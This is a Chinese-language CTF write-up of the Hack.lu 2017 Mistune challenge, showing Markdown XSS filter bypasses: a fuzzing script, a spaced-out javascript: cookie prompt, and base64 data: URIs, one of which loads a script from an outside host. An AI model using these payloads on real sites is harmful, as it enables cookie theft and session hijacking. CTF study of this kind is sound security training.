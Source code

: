```yaml
---
title:  HACK.LU CTF 2017 Web  Write-up
subtitle: CTF
time: 2017.10.19 10:00:00
layout: post
catalog: true
tags:
- CTF
- Web
excerpt: Hack.lu CTF Web题解，共勉。

---
```


# HACK.LU CTF 2017 WP



## Mistune

![Markdownxss](https://mo-xiaoxi.github.io/img/post/hacklu/Markdownxss.png)

这是一道Markdown的XSS题，题目中有一个测试页面用来测试具体输入输出，与此同时admin页面存在提示:

```html
We use mistune.Renderer(escape=True, hard_wrap=True)
The admin will look at your converted Markdown.
The admin will click on links (<a>).
You can check the queue here
```

所以，思路很明确，就是绕过markdown进行xss。

为了方便fuzz，写了一个本地脚本，模仿过滤。

```python
import mistune

renderer = mistune.Renderer(escape=True, hard_wrap=True)
# use this renderer instance
markdown = mistune.Markdown(renderer=renderer)
while True:
    text = raw_input('test Markdown XSS:\n')
    print markdown(text)
```
测试结果如下：

```Html
<> & 会被转义
'"在markdown语法中会被转义
javascript被禁
右括号有影响,一个右括号就当作闭合
text=[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))&test=Test+in+Browser
=>>
 <p><p><a href="j    a   v   a   s   c   r   i   p   t:prompt(document.cookie">a</a>1)2)</p>
</p>


点击base64可以xss
text=[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\&test=Test+in+Browser


测试：
[a](data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cHM6Ly94LnNlY2JveC5jbi9iVzhEblE%2bPC9zY3JpcHQ%2b)

```